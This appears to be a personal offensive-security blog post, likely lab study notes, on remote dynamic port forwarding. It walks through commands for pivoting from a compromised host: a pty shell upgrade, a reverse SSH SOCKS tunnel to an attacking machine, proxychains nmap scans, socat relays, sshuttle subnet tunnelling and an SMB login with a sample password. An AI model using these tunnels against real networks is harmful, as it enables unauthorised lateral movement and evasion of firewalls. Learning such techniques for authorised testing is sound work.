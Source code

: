 ```yaml
---
layout: post
title: Remote Dynamic Port Forwarding
titledate: 09/23/23
tags: ["infosec", "offsec", "tunnel", "socat", "sshuttle"]
---
```


remote dynamic port forwarding works similar to local in that we want to forward traffic to multiple clients from one session and we can do this in a remote port forwarding instance in which we can setup the session from the target1

if we have a target1 that allows outbound ssh but not inbound we can perform RDPF

again we setup the tty shell session with python pty

    $ python3 -c 'import pty; pty.spawn("/bin/bash")'

next we create the ssh session from target1 to the port we want to access

    $ ssh -N -R 9998 kali@192.168.118.4

here we specify no shell and -R for remote forwarding to our attacking machine and the listening port on the attacking machine

we can check this port is bound and listening on our local interface

    $ sudo ss -ntplu

now like in the previous dynamic port forwarding example we can use proxychains to to send traffic over the socks proxy 

    $ tail /etc/proxychains4.conf

    - socks5 127.0.0.1 9998 (or port we are trying to access)

and to illustrate the example we us proxychains to run nmap against one of the servers

    $ proxychains nmap -vvv -sT --top-ports=20 -Pn -n 10.4.1.1

if we have root privs and python3 installed sshuttle may be a viable option

    target1: socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22

here we setup socat listening on 2222 forwarding ssh to the psql db target

    $ sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24

and then in our attacking machine we specify the psql db connection as well as the subnets we want to tunnel 

now this will behave like a vpn environment - any connection we make to hosts on the subnet should have seemingly direct access

    $ smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
